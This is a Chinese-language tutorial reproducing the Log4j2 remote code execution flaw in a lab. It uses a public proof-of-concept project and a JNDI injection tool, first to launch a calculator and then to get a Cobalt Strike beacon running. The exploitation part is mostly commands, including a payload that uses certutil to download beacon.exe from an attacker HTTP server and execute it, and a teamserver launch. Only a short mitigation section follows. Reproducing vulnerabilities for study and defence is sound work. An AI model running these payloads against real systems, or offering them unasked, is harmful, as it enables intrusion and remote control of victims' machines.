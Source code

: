 # Log4j2 RCE漏洞复现


## 前言
Apache Log4j2是一款优秀的Java日志记录框架。近日，阿里云安全团队向Apache官方报告了Apache Log4j2远程代码执行漏洞。由于Apache Log4j2某些功能存在递归解析功能，攻击者可直接构造恶意请求，触发远程代码执行漏洞。漏洞利用无需特殊配置，经阿里云安全团队验证， Apache Struts2，Apache Solr， Apache Druid， Apache Flink等均受影响。
<!--more-->




### 漏洞评级
|影响产品 | 漏洞类型 | 漏洞评级|
| --- | --- | --- |
| Apache Log4j | 远程代码执行漏洞 | 严重 |


### 漏洞复现

首先去[GitHub](https://github.com/y35uishere/apache-log4j-poc.git)下载漏洞poc代码环境，使用IDEA加载项目文件

![](https://image-ghfh.oss-cn-beijing.aliyuncs.com/img/log4j2-2.png)

打开项目文件src/main/java/log4j
在其中添加一行代码

```java
System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase","true");
```

![](https://image-ghfh.oss-cn-beijing.aliyuncs.com/img/log4j2-3.png)  

接着去[GitHub](https://github.com/welk1n/JNDI-Injection-Exploit/releases)上下载*JNDI*注入工具  

![](https://image-ghfh.oss-cn-beijing.aliyuncs.com/img/log4j2-4.png)



### 生成EXP

```bash
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "calc" -A "192.168.31.201"
```

![](https://image-ghfh.oss-cn-beijing.aliyuncs.com/img/log4j2-5.png)


将生成的EXP代码复制到漏洞POC代码中  

![](https://image-ghfh.oss-cn-beijing.aliyuncs.com/img/log4j2-6.png)

### 运行POC
点击IDEA工具栏*运行*  
![](https://image-ghfh.oss-cn-beijing.aliyuncs.com/img/log4j2-7.png)  

![](https://image-ghfh.oss-cn-beijing.aliyuncs.com/img/log4j2-8.png)  


成功弹出计算器！漏洞利用成功！  

### 反弹Shell上线CS

运行CobaltStrike teamserver  

```bash
teamserver.bat 192.168.31.201 123456
```

![](https://image-ghfh.oss-cn-beijing.aliyuncs.com/img/log4j2-9.png)  

打开CobaltStrike连接  

新建监听器保存  

![](https://image-ghfh.oss-cn-beijing.aliyuncs.com/img/log4j2-10.png)  


点击*攻击* --> *生成后门* --> *Windows可执行程序Stageless*  

![](https://image-ghfh.oss-cn-beijing.aliyuncs.com/img/log4j2-11.png)  

选择生成的监听器，输出格式exe  

![](https://image-ghfh.oss-cn-beijing.aliyuncs.com/img/log4j2-12.png)  

点击保存  

![](https://image-ghfh.oss-cn-beijing.aliyuncs.com/img/log4j2-13.png)  

### 启动Web服务

在生成的exe payload目录执行：  

```
python -m http.server 8080
```

浏览器访问验证  

![](https://image-ghfh.oss-cn-beijing.aliyuncs.com/img/log4j2-14.png)  

### 构造CS上线payload

```bash
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "certutil -urlcache -split -f http://192.168.31.201:8080/beacon.exe C:\Users\a.exe&&C:\Users\a.exe" -A "192.168.31.201"
```

将生成好的payload粘贴到POC代码中  

![](https://image-ghfh.oss-cn-beijing.aliyuncs.com/img/log4j2-15.png)  

点击运行



![](https://image-ghfh.oss-cn-beijing.aliyuncs.com/img/log4j2-16.png)

成功上线！

### 演示视频

<iframe src="https://image-ghfh.oss-cn-beijing.aliyuncs.com/log4j2-rce.mp4" scrolling="no" border="0" frameborder="no" framespacing="0" allowfullscreen="true"> </iframe>

### 漏洞缓解措施

(1) 尽快升级至最新版本

https://github.com/apache/logging-log4j2/ ;  

尽快升级Apache Log4j2所有相关应用到最新的log4j-2.15.0-rc2版本

https://github.com/apache/logging-log4j2/releases/tag/log4j-2.15.0-rc2

(2) 安装杀毒软件更新最新补丁程序

### 总结

本篇文章介绍了Apache Log4j2 远程代码执行漏洞的风险及漏洞利用过程，以简单直观的过程告知用户其危害以及防护措施。



### 相关链接

https://mp.weixin.qq.com/s/AuBchaUvFw2pisVw6rNX5A



https://github.com/y35uishere/apache-log4j-poc



https://github.com/welk1n/JNDI-Injection-Exploit


